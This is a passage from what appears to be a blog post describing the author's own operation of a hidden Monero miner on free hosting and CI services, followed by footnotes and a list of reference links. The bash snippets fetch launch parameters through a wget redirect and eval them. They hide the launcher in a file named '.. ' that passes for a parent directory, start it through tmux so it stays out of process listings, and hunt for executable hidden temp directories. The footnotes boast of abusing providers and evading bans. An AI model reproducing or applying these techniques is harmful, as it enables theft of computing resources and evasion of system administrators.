 ```bash
## m1 also important to stop wget
pl_vars=$(echo "$token_url" | wget -t 1 -T 3 -q -i- -S 2>&1 | grep -m1 'Location')
pl_vars=${pl_vars#*\/}
pl_vars=${pl_vars//\"&/\" }
pl_vars=${pl_vars//%3F/\?}
```

The wget `-S` prints the redirect url we are interested in for parsing.
Having the parameters and the script, we evaluate the variables writing them over a file

```bash
eval "$pl_vars"
echo "export \
$pl_vars \
$ENV_VARS \
">env.sh
```

This file will be sourced by are deploy script.
The last part of the startup script is to actual [trampoline], evaluate the script within the current shell process, or maybe let it be managed by tmux if possible.

```bash
# printf preserves quotes
eval "$(printf '%s' "$launcher")" &>/dev/null
# or tmux
echo "$launcher" > ".. "
tmux send-keys -t miner ". ./\".. \"" Enter
```

The launcher script is dumped to a file named ".. " this looks confusing because it can be mistaken as a _parent_ directory. And we don't include the session command, as that would linger in the process command, instead we start the tmux session beforehand and send the source command through tmux terminal interface. Related to this, sometimes calling an executable with `./` keeps those chars in the command, so it is better to add the `$PWD` to the path..`PATH=$PWD:$PATH`.

## The Payload

Our deploy script starts by sourcing the `env.sh` file, and keeping or configured vars as `STARTING_*` vars like

```bash
STARTING_PATH=${STARTING_PATH:-$PATH}
STARTING_PID=$BASHPID
```

This allows us to kill and restart a running instance while resetting the environment.
Lets switch to a tmp directory with exec capabilities

```bash
# out local subdirectory
pathname=$(printf ".%-$((RANDOM%9+1))s"
for ph in {/tmp,/dev/shm,/run,/var/tmp,/var/cache,~/.local,~/.cache,~/}; do
    rm -rf "$ph/$pathname" &&
        mkdir -p "$ph/$pathname" &&
        tmppath="$ph/$pathname" &&
        is_path_executable "$tmppath" &&
        export PATH="${ph}/$pathname:${PATH}" tmppath &&
        break
done
[ -n "$tmppath" ] && cd "$tmppath"
```


[^adversary]: _the grumpy sysadmin_
[^infoproc]: even though this would break many privacy assumptions, I am sure most of them just peek inside whenever there is a incumbent problem, but this is only a problem for container based runtimes, whereas VMs are pretty much black boxes.
[^monerominer]: the miner built into the monero node got some work to make it more background friendly, but the distribution of xmrig was never focused on background friendliness.
[^difficulty]: some pools offer different difficulties on different connection ports, and tend to align the job difficulty to the miner submitted shares, but the granularity of the proxy was still more convenient, as it would prevent pool [lock-in] \(although we never really switched pools \).
[^configwatch]: it wasn't happy when the config suddenly appeared and disappeared from the file system
[^stratumprotocol]: We don't talk about the [stratum protocol] since we just have to deal with whatever is implemented in _both_ the pool and the miner...which is usually the bare minimum, and possibly with non standard extensions.
[^fullbash]: never go full bash :\)
[^memoryondemand]: I have not explored what happens when a processes loads additional functionality at runtime, as the kernel would look for the address in the memory layout of the executable, which would access the filesystem and possibly causing a crash.
[^freehostinglimits]: Limits are arbitrary, cpu time is less than a second, memory is less than 128M, outbound connections are blocked.
[^cpanelssh]: with a little bit of patience you can also run a full ssh instance over an environment bootstrapped around your cpanel account space, _without_ having access to the cpanel builtin SSH which tends to be disabled by hosting providers.
[^openshift]: openshift went from a 1 year free tier to 3 months to 1 month, starting to require phone authentication, I can guarantee I was not the only one abusing their services.
[^herokucontainers]: Heroku free tier containers are quite generous in resources, they provide 4c/8t (virtual) cpus, plenty of ram and large storage (which however is not persistent and discarded on dyno shutdown).
[^saddrone]: They adde muc strictier registration rules, after a couple of bans, I might have contributed to it.
[cryptocurrencies]: https://en.wikipedia.org/wiki/Cryptocurrency
[ASICS]: https://en.wikipedia.org/wiki/Application-specific_integrated_circuit
[CPU friendly coins]: \stuff/a-few-notes-on-proof-of-work
[miner]: https://github.com/xmrig/xmrig
[another miner]: https://github.com/Bendr0id/xmrigCC
[proxy]: https://github.com/Bendr0id/xmrigcc-proxy
[tunnel]: https://github.com/search?q=tunnel
[somebody]: https://twitter.com/sarahjamielewis
[lost bets]: https://web.archive.org/web/https://twitter.com/SarahJamieLewis/status/1185724467776851968
[DNS]: https://en.wikipedia.org/wiki/Domain_Name_System
[dos]: https://en.wikipedia.org/wiki/Denial-of-service_attack
[dig]: https://web.archive.org/web/20201107155737/https://downloads.isc.org/isc/bind9/
[TXT]: https://en.wikipedia.org/wiki/TXT_record
[statically linked]: https://en.wikipedia.org/wiki/Standalone_program
[recommended]: https://www.ietf.org/rfc/rfc6763.txt
[cloudflare]: https://www.cloudflare.com/
[freedns]: https://freedns.afraid.org/
[used to]: https://web.archive.org/save/https://community.cloudflare.com/t/was-there-a-reduction-in-maximum-txt-size
[NULs]: https://en.wikipedia.org/wiki/Null_character
[base64]: https://en.wikipedia.org/wiki/Base64
[curl]: https://curl.se/
[wget]: https://www.gnu.org/software/wget/
[bash]: https://en.wikipedia.org/wiki/Bash_%28Unix_shell%29
[cf cli]: https://web.archive.org/web/20210305071742/https://github.com/cloudflare/cloudflare-go/blob/master/cmd/flarectl/README.md
[trampoline]: https://en.wikipedia.org/wiki/Trampoline_(computing)
[container]: https://en.wikipedia.org/wiki/OS-level_virtualization
[here]: \assets/stuff/bash_functions.txt
[IPC]: https://en.wikipedia.org/wiki/Inter-process_communication
[ulimits]: https://web.archive.org/web/https://linux.die.net/man/5/limits.conf
[ipinfo]: https://ipinfo.io/
[geoip.json]: \assets/stuff/geoip.json
[technical debt]: https://en.wikipedia.org/wiki/Technical_debt
[state machine]: https://en.wikipedia.org/wiki/Finite-state_machine
[proxychains]: https://web.archive.org/web/20210121093409/https://github.com/haad/proxychains
[forward tunnel]: https://web.archive.org/web/20210315094551/https://github.com/ginuerzh/gost
[mining proxy]: https://web.archive.org/web/20201207221231/https://github.com/Snipa22/xmr-node-proxy
[lock-in]: https://en.wikipedia.org/wiki/Vendor_lock-in
[stratum protocol]: https://en.bitcoin.it/wiki/Stratum_mining_protocol
[cdn]: https://en.wikipedia.org/wiki/Content_delivery_network
[aup]: https://en.wikipedia.org/wiki/Acceptable_use_policy
[cpanel]: https://en.wikipedia.org/wiki/CPanel
[cgi]: https://en.wikipedia.org/wiki/Common_Gateway_Interface
[Cloud9]: https://aws.amazon.com/cloud9
[Codeanywhere]: https://web.archive.org/web/20210314172852/https://codeanywhere.com/
[Puppeteer]: https://web.archive.org/web/20210318213139/https://developers.google.com/web/tools/puppeteer
[Openshift]: https://www.openshift.com/
[Heroku]: https://www.heroku.com/
[Bitrise]: https://web.archive.org/web/20210222050951/https://www.bitrise.io/
[Continuousphp]: https://web.archive.org/web/20210310010750/https://continuousphp.com/
[Travis]: https://web.archive.org/web/20210324163536/https://travis-ci.org/
[Semaphore]: https://web.archive.org/web/20210308041527/https://semaphoreci.com/
[Wercker]: https://web.archive.org/web/20210308202144/https://app.wercker.com/
[Buddy]: https://web.archive.org/web/20210322133805/https://buddy.works/
[Drone]: https://web.archive.org/web/20210327045555/https://cloud.drone.io/welcome
[Codeship]: https://web.archive.org/web/20210322100629/https://www.cloudbees.com/products/codeship
[Docker-hub]: https://web.archive.org/web/20210322105637/https://hub.docker.com/
[Semaphore]: https://web.archive.org/web/20210308041527/https://semaphoreci.com/
[CI]: https://en.wikipedia.org/wiki/Continuous_integration